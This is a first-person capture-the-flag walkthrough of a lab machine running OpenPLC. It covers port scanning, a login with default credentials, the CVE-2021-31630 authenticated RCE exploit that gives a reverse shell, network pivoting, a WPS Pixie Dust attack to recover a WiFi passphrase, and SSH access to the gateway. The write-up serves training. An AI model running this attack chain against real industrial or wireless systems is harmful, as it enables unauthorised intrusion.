I start by performing a full Nmap scan against the target machine in order to identify open ports and running services.
nmap 10.10.11.7 -Pn -sC -sV -A -p- -T4 -oA scanThe scan reveals that SSH and HTTP services are exposed. By using the -sC option, I also discover a web-based login panel.

I attempt to authenticate using default credentials and successfully log in with openplc:openplc. Inside the application, I identify a functionality that allows uploading programs, restricted to files with the .st extension.
Searching for known vulnerabilities affecting this software, I find CVE-2021-31630, which allows authenticated remote code execution.
I execute the public exploit script, providing my IP address, listening port, and valid credentials.
python exploit.py -ip <YOUR IP> -p <YOUR PORT> -u <USERNAME> -pwd <PASSWORD>This results in a successful reverse shell on the target system.

Once inside the system, I confirm that I am running commands as the root user. However, the expected root flag is not present on this machine.

This suggests that pivoting to another network segment may be required. By checking the network configuration with ifconfig, I identify an additional network interface.

Since nmap is not installed on the system, I rely on the arp command to enumerate hosts on the newly discovered network.


This confirms that lateral movement is possible. While inspecting the filesystem, I notice configuration files under /etc related to WPA wireless networking.

I scan the wireless interface using iwlist to identify nearby access points.
iwlist wlan0 scan
The identified wireless network uses a security protocol that is vulnerable to Pixie Dust attacks, which can allow recovery of the WiFi passphrase.

This type of attack enables extraction of the wireless key. I transfer the oneshot.py script to the compromised machine and prepare the required parameters.


I then execute the script against the target access point.
python3 oneshot.py -b 02:00:00:00:01:00 -i wlan0 -KThe attack succeeds, revealing the wireless network password.

The system provides several utilities for managing both network connections and system services. Using the recovered WiFi credentials, I configure the connection with wpa_supplicant, following documented guidelines.
wpa_passphrase plcrouter NoWWEDoKnowWhaTisReal123! | sudo tee -a /etc/wpa_supplicant/wpa_supplicant.conf

I create an additional systemd configuration file to ensure the interface is properly managed.
After bringing the interface up, I manually assign an IP address to the wireless interface.
sudo ifconfig wlan0 192.168.1.7 netmask 255.255.255.0 upUsing ip a, I verify connectivity and identify other hosts within the network.

An arp -a scan reveals a gateway device. I connect to this host via SSH and successfully locate the root flag, completing the machine.
